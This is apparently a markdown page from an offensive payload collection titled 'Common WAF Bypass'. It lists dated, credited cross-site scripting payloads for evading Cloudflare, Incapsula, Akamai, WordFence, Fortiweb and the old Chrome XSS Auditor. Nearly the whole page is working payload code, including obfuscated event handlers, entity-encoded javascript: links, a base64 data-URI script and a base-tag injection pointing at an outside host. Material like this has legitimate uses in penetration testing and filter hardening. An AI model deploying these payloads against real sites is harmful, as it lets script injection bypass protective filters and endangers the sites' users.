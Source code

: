 # Common WAF Bypass

## Summary

* [Cloudflare](#cloudflare)
* [Chrome Auditor](#chrome-auditor)
* [Incapsula WAF](#incapsula-waf)
* [Akamai WAF](#akamai-waf)
* [WordFence WAF](#wordfence-waf)
* [Fortiweb WAF](#fortiweb-waf)

## Cloudflare

* 25st January 2021 - [@Bohdan Korzhynskyi](https://twitter.com/bohdansec)
    ```js
    <svg/onrandom=random onload=confirm(1)>
    <video onnull=null onmouseover=confirm(1)>
    ```

* 21st April 2020 - [@Bohdan Korzhynskyi](https://twitter.com/bohdansec)
    ```js
    <svg/OnLoad="`${prompt``}`">
    ```

* 22nd August 2019 - [@Bohdan Korzhynskyi](https://twitter.com/bohdansec)
    ```js
    <svg/onload=%26nbsp;alert`bohdan`+
    ```

* 5th June 2019 - [@Bohdan Korzhynskyi](https://twitter.com/bohdansec)
    ```js
    1'"><img/src/onerror=.1|alert``>
    ```

* 3rd June 2019 - [@Bohdan Korzhynskyi](https://twitter.com/bohdansec)
    ```js
    <svg onload=prompt%26%230000000040document.domain)>
    <svg onload=prompt%26%23x000000028;document.domain)>
    xss'"><iframe srcdoc='%26lt;script>;prompt`${document.domain}`%26lt;/script>'>
    ```

* 22nd March 2019 - @RakeshMane10
    ```js
    <svg/onload=&#97&#108&#101&#114&#00116&#40&#41&#x2f&#x2f
    ```

* 27th February 2018
    ```html
    <a href="j&Tab;a&Tab;v&Tab;asc&NewLine;ri&Tab;pt&colon;&lpar;a&Tab;l&Tab;e&Tab;r&Tab;t&Tab;(document.domain)&rpar;">X</a>
    ```

## Chrome Auditor

NOTE: Chrome Auditor is deprecated and removed on latest version of Chrome and Chromium Browser.

* 9th August 2018
    ```javascript
    </script><svg><script>alert(1)-%26apos%3B
    ```


## Incapsula WAF

* 11th May 2019 - [@daveysec](https://twitter.com/daveysec/status/1126999990658670593)
    ```js
    <svg onload\r\n=$.globalEval("al"+"ert()");>
    ```

* 8th March 2018 - [@Alra3ees](https://twitter.com/Alra3ees/status/971847839931338752)
    ```javascript
    anythinglr00</script><script>alert(document.domain)</script>uxldz
    anythinglr00%3c%2fscript%3e%3cscript%3ealert(document.domain)%3c%2fscript%3euxldz
    ```

* 11th September 2018 - [@c0d3G33k](https://twitter.com/c0d3G33k)
    ```javascript
    <object data='data:text/html;;;;;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=='></object>
    ```


## Akamai WAF

* 18th June 2018 - [@zseano](https://twitter.com/zseano)
    ```javascript
    ?"></script><base%20c%3D=href%3Dhttps:\mysite>
    ```

* 28th October 2018 - [@s0md3v](https://twitter.com/s0md3v/status/1056447131362324480)
    ```svg
    <dETAILS%0aopen%0aonToGgle%0a=%0aa=prompt,a() x>
    ```


## WordFence WAF

* 12th September 2018 - [@brutelogic](https://twitter.com/brutelogic)
    ```html
    <a href=javas&#99;ript:alert(1)>
    ```

## Fortiweb WAF

* 9th July 2019 - [@rezaduty](https://twitter.com/rezaduty)
    ```javascript
    \u003e\u003c\u0068\u0031 onclick=alert('1')\u003e
    ```